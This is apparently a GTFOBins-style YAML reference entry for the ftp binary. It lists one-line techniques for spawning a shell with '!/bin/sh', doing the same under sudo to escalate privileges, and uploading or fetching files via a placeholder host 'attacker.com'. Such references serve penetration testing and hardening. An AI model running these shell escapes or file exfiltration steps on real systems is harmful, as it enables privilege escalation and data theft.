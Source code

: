 ```yaml
---
functions:
  execute-interactive:
    - code: |
        ftp
        !/bin/sh
  upload:
    - description: Send local file to a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        put file_to_send
  download:
    - description: Fetch a remote file from a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        get file_to_get
  sudo-enabled:
    - code: |
        sudo ftp
        !/bin/sh
---
```

